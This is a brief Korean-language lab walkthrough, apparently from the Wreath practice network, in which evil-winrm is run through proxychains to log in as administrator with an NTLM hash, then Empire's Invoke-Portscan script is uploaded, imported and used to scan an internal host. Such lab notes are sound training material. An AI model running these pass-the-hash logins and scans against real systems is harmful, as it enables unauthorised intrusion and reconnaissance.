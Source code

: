 
Invoke-Portscan.ps1 설치
https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1


```bash title="evil-winrm 실행 시 칼리 로컬 디렉터리를 공유 디렉터리로 추가"
proxychains -q evil-winrm -u administrator -H '37db630168e5f82aafa8461e05c6bbd1' -i 10.200.180.150
 -s /root/Wreath 
```

```powershell title="칼리 공유 디렉터리에서 Target 서버로 파일 다운로드"
upload /root/Wreath/Invoke-PortScan.ps1
```


```powershell title="모듈 가져오기: Import-Module cmdlet을 사용해 스크립트를 로드"
Import-Module .\Invoke-Portscan.ps1
```

```powershell title="함수 실행"
Invoke-Portscan -Hosts 10.200.180.100 -TopPorts 50
```

